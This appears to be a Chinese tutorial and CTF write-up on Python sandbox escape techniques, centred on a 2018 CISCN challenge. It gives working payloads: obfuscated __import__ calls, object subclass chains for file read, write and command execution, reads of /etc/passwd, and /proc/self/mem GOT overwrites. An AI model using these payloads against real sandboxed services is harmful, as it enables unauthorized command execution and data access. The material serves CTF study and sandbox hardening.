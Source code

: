 ```yaml
---
typora-root-url: ../../../docs
---
```


# Python沙盒
所谓的 Python 沙盒，即以一定的方法模拟Python终端，实现用户对 Python 的使用。

# Python沙箱逃逸的一些方法
我们通常所说的 Python 沙箱逃逸就是绕过模拟的 Python 终端，最终实现命令执行。
## 危险函数的使用
在 Python 的内建函数中，有一些函数可以帮助我们实现任意命令执行：
```
os.system() os.popen()
commands.getstatusoutput() commands.getoutput()
commands.getstatus()
subprocess.call(command, shell=True) subprocess.Popen(command, shell=True)
pty.spawn()
```
在 Python 中导入模块的方法通常有三种(xxx为模块名称）)：
1. import xxx
2. from xxx import *
3. __import__('xxx')     
我们可以通过上述的导入方法，导入相关模块并使用上述的函数实现命令执行。
除此之外，我们也可以**通过路径引入模块**：
如在 linux 系统中 Python 的 os 模块的路径一般都是在 /usr/lib/python2.7/os.py ，当知道路径的时候，我们就可以通过如下的操作导入模块，然后进一步使用相关函数。
```py
>>> import sys
>>> sys.modules['os']='/usr/lib/python2.7/os.py'
>>> import os
>>>
```

但是，正常的 Python 沙箱以黑名单的形式禁止使用一些模块如 os 或以白名单的形式只允许用户使用沙箱提供的模块。如何绕过

## 0x02 dir 与__dict__

首先，我们应该确定程序还有哪些内置函数可以用，我们可以通过 `dir __builtin__` 来获取内置函数列表
```python
>>> dir(__builtins__)
['ArithmeticError', 'AssertionError', 'AttributeError', 'BaseException', 'BufferError', 'BytesWarning', 'DeprecationWarning', 'EOFError', 'Ellipsis', 'EnvironmentError', 'Exception', 'False', 'FloatingPointError', 'FutureWarning', 'GeneratorExit', 'IOError', 'ImportError', 'ImportWarning', 'IndentationError', 'IndexError', 'KeyError', 'KeyboardInterrupt', 'LookupError', 'MemoryError', 'NameError', 'None', 'NotImplemented', 'NotImplementedError', 'OSError', 'OverflowError', 'PendingDeprecationWarning', 'ReferenceError', 'RuntimeError', 'RuntimeWarning', 'StandardError', 'StopIteration', 'SyntaxError', 'SyntaxWarning', 'SystemError', 'SystemExit', 'TabError', 'True', 'TypeError', 'UnboundLocalError', 'UnicodeDecodeError', 'UnicodeEncodeError', 'UnicodeError', 'UnicodeTranslateError', 'UnicodeWarning', 'UserWarning', 'ValueError', 'Warning', 'ZeroDivisionError', '_', '__debug__', '__doc__', '__import__', '__name__', '__package__', 'abs', 'all', 'any', 'apply', 'basestring', 'bin', 'bool', 'buffer', 'bytearray', 'bytes', 'callable', 'chr', 'classmethod', 'cmp', 'coerce', 'compile', 'complex', 'copyright', 'credits', 'delattr', 'dict', 'dir', 'divmod', 'enumerate', 'eval', 'execfile', 'exit', 'file', 'filter', 'float', 'format', 'frozenset', 'getattr', 'globals', 'hasattr', 'hash', 'help', 'hex', 'id', 'input', 'int', 'intern', 'isinstance', 'issubclass', 'iter', 'len', 'license', 'list', 'locals', 'long', 'map', 'max', 'memoryview', 'min', 'next', 'object', 'oct', 'open', 'ord', 'pow', 'print', 'property', 'quit', 'range', 'raw_input', 'reduce', 'reload', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'unichr', 'unicode', 'vars', 'xrange', 'zip']
```
在Python中，不引入直接使用的内置函数被成为**builtin**函数，随着**__builtin__**这个模块自动引入到环境中

进而，我们可以通过`__dict__`引入我们想要引入的模块

两种方法都是一个目的,那就是列出一个模组/类/对象 下面 所有的属性和函数
这在沙盒逃逸中是很有用的,可以找到隐藏在其中的一些东西
我们可以通过`__dict__`做什么呢？
一个模块对象有一个由字典对象实现的命名空间…属性引用被转换为这个字典中的查找，例如，m.x等同于m.dict["x"]

绕过实例：
首先通过 base64 绕过字符明文检测
```python
>>> import base64
>>> base64.b64encode('__import__')
'X19pbXBvcnRfXw=='
>>> base64.b64encode('os')
'b3M='
```
然后通过 **__dict__** 引用
```py
>>> __builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('b3M='.decode('base64'))
```

*如果一些 内敛函数在 __builtins__ 删除 ，我们可以通过 reload(__builtins__) 重新载入获取一个完整的 __builtins__*
## 0x03 创建对象，以及引用
Python 的 object 类中集成了很多的基础函数，我们想要调用的时候也是可以通过创建对象进而引用

有常见的两个方法
```bash
().__class__.__bases__[0]
''.__class__.__mro__[2]
```
![](http://oayoilchh.bkt.clouddn.com/18-5-3/14928461.jpg)
如，我们可通过
`print ().__class__.__bases__[0].__subclasses__()[40]("/etc/services").read()`达到文件读取的效果，

**常见payload**
```py
#读文件
().__class__.__bases__[0].__subclasses__()[40](r'C:\1.php').read()

#写文件
().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')

#执行任意命令
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )
```
## 0x04 其他危险的函数
如 **execfile** 文件执行
```py
>>> execfile('/usr/lib/python2.7/os.py')
>>> system('cat /etc/passwd')
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
>>> getcwd()
'/usr/lib/python2.7'
```
**timeit**
```py
import timeit
timeit.timeit("__import__('os').system('dir')",number=1)
```

** exec 和 eval 比较经典了**
```py
eval('__import__("os").system("dir")')

```
**platform**
```py
import platform
print platform.popen('dir').read()
```

## 0x05 __getattr__() 和 __getattribute__() 
python 再访问属性的方法上定义了 __getattr__()  和 __getattribute__()  2种方法，其区别非常细微，但非常重要。

如果某个类定义了 __getattribute__() 方法，在 每次引用属性或方法名称时 Python 都调用它（特殊方法名称除外，因为那样将会导致讨厌的无限循环）。
如果某个类定义了 __getattr__() 方法，Python 将只在正常的位置查询属性时才会调用它。如果实例 x 定义了属性 color， x.color 将 不会 调用x.__getattr__('color')；而只会返回 x.color 已定义好的值。
这里，我们可以通过 __getattribute__ 这个方法做一些事，如下面的payload
```py
x = [x for x in [].__class__.__base__.__subclasses__() if x.__name__ == 'ca'+'tch_warnings'][0].__init__
x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('l'+'s')
```

## 0x06 间接的引用调用
在有些题目中，如这次的2018年国赛的 Python 沙盒题目上，import 其实整个是被阉割了。

但是在Python中，原生的 **__import__** 是存在被引用的，只要我们找到相关对象引用就可以进一步获取我们想要的内容，具体下面的demo会讲述到

## 0x07 write修改got表
实际上是一个 **/proc/self/mem** 的内存操作方法
**/proc/self/mem** 是内存镜像，能够通过它来读写到进程的所有内存，包括可执行代码，如果我们能获取到Python一些函数的偏移，如 **system** ，我们就能通过想做pwn题的劫持got表做我们任意想做的事情

```py
(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('c'+'at /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))
```
第一个地址是 system 的偏移，第二个是fopen的偏移，我们可以通过 **objdump** 获取相关信息
![](http://oayoilchh.bkt.clouddn.com/18-5-3/25123674.jpg)

# 例子
我们可以通过
`print ().__class__.__bases__[0].__subclasses__()[40]("/home/ctf/sandbox.py").read()` 
获取题目源码，然后可以进一步分析

## 解决
三种方法
### 0x01
```py
x = [x for x in [].__class__.__base__.__subclasses__() if x.__name__ == 'ca'+'tch_warnings'][0].__init__
x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('l'+'s')
x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('l'+'s /home/ctf')
x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ca'+'t /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb')
```
### 0x02
修改 got
```py
(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('l'+'s /home/ctf/'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))


(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('c'+'at /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))

```
### 0x03
间接引用
在不断的 dir 过程中，发现 __closure__  这个 object 保存了参数，可以引用原生的 __import__
```py

print __import__.__getattribute__('__clo'+'sure__')[0].cell_contents('o'+'s').__getattribute__('sy'+'stem')('l'+'s home') 
```
# 参考
https://xz.aliyun.com/t/52#toc-10 
https://blog.csdn.net/qq_35078631/article/details/78504415 
https://www.anquanke.com/post/id/85571 
http://bestwing.me/2018/05/03/awesome-python-sandbox-in-ciscn/#0x01

